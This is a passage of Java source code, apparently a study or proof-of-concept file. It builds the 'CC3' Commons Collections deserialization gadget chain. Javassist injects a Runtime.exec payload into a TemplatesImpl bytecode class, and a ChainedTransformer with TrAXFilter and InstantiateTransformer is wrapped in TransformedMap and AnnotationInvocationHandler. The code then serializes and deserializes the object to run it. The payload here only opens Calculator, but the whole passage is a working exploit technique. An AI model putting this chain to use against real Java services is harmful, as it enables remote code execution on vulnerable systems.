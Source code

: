 ```java
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellByteCode = ctClass.toBytecode();
        byte[][] targetByteCode = new byte[][]{shellByteCode};

        TemplatesImpl obj = new TemplatesImpl();
        Class _class = obj.getClass();
        Field _name = _class.getDeclaredField("_name");
        Field _bytecode = _class.getDeclaredField("_bytecodes");
        Field _tfactory = _class.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(obj, "h3rmesk1t");
        _bytecode.set(obj, targetByteCode);
        _tfactory.set(obj, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{obj})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map map = new HashMap();
        map.put("value", "d1no");
        Map map1 = TransformedMap.decorate(map, null, chainedTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object object = constructor.newInstance(Retention.class, map1);

        try {
            // Serialization
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(object);
objectOutputStream.close();

            // Deserialization
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC3();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
